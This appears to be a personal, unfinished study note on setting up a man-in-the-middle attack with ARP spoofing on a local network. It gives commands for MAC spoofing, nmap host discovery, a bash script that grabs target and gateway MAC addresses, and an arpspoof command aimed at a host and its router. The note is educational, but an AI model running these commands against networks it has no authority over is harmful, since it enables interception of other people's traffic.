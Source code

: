 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```bash
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```bash
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP (Ping scan)
# this command is not 100% reliable, it is reliable enough though
```

{% embed url="https://unix.stackexchange.com/questions/87935/nmap-sn-scan-or-no-scan" %}

## Get MAC addrs

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

```
-n     no DNS resolution 
-sP    skip port scan
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

<details>

<summary>How can I forward using MAC addrs, or IP?</summary>

* _bridge_ command from iproute2 package
* iptables mac command
* ebtables

</details>

linux mac forwarding

## [iptables](todo-iptables.md)

### MAC forwarding

As if we were switches we could use MAC addresses to forward data at the data link layer (layer 2) of the OSI model.&#x20;

{% embed url="https://serverfault.com/questions/293786/is-there-a-tool-like-route-in-linux-to-configure-the-forwarding-entry-dst-mac" %}

{% embed url="https://en.wikipedia.org/wiki/MAC-Forced_Forwarding" %}

{% embed url="https://linux.die.net/man/8/iptables" %}

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain/1/nmap" %}
